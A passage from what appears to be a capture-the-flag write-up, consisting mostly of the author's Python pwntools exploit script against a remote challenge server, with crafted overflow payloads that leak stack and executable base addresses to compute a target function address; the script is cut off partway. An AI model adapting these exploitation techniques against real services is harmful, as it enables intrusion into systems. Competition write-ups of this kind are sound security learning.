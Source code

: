 My final payload is shown below (yes, I manually spammed the server with connections until it succeeded, and was later informed by the organisers that they noticed a traffic spike right around the time I had solved the challenge. Oops.):

```python
from pwn import *

context.log_level = 'debug'

# Guess the low byte...
payload = b"0"*60 + b"\x10\x00\x00\x00\x50" + b"0"*43 + b"\x82\x00\x00\x00" # Leak dest_addr on the stack
payload2 = b"0"*60 + b"\x10\x00\x00\x00\x80" + b"0"*43 + b"\x82\x00\x00\x00" # Used to leak base address of executable

try:
    p = remote("tisc21c-v3clxv6ecfdrvyrzn5mz7mchv8v7wcpv.ctf.sg", "53619")
    p.sendlineafter(b"//////////////////////////////////", b"1")
    p.sendlineafter(b"Your answer: ", payload)
    p.sendlineafter(b"//////////////////////////////////", b"2")
    r = p.recvline(timeout=1)
    r = p.recvline(timeout=1)
    if b"Cromulon" in r:
        p.sendlineafter(b"Passphrase: ", b"A"*64)
        p.sendlineafter(b"> ", b"4")
        for i in range(18):
            r = p.recvline(timeout=10)
        r = r[:6]
        x = []
        for i in r:
            x += [i^0x41]
        if x[0] != x[1]:
            dest_addr = 0
            for i in range(6):
                dest_addr += x[i]*(256**i)
            # Now we know the address of various stack elements
            input_addr = dest_addr+0x30
            s_addr = dest_addr+0x60
            cookie_addr = dest_addr+0xb8

            p.sendlineafter(b"> ", b"6")
            p.sendlineafter(b"//////////////////////////////////", b"1")
            p.sendlineafter(b"Your answer: ", payload2)
            p.sendlineafter(b"//////////////////////////////////", b"2")
            r = p.recvline(timeout=1)
            r = p.recvline(timeout=1)
            p.sendlineafter(b"Passphrase: ", b"A"*64)
            p.sendlineafter(b"> ", b"4")
            for i in range(18):
                r = p.recvline(timeout=10)
            r = r[:6]
            x = []
            for i in r:
                x += [i^0x41]
            leaked_addr = 0
            for i in range(6):
                leaked_addr += x[i]*(256**i)
            # Now we know the address of various text/data elements
            base_addr = leaked_addr-0x6956
            win_addr = base_addr+0x3bbc
            
            p.sendlineafter(b"> ", b"6")
            p.sendlineafter(b"//////////////////////////////////", b"1")
```